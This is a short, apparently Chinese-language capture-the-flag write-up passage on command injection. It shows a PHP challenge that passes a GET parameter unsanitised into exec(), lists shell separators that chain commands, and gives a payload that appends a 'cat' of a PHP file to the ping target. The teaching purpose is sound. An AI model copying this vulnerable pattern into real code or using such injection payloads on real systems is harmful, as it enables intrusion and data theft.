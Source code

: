 ### 命令注入

**题目源码**
```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $cmd = "ping -c 4 {$_GET['ip']}";
    exec($cmd, $res);
}
?>
```

**解题思路**

Linux管道符
```
;	执行完前面语句再执行后面的。如ping 127.0.0.1; ls
|	显示后面语句的执行结果。如ping 127.0.0.1 | ls
||	前面语句出错时执行后面语句。如ping 127.0.0.1 || ls
&	前面语句为假则执行后面语句。如ping 127.0.0.1 & ls
&&	前面语句为假则报错，为真则执行后面语句。如ping 127.0.0.1 && ls
```

``127.0.0.1; cat 16497209291396.php``

![](./img/rce4.png)

## 过滤cat

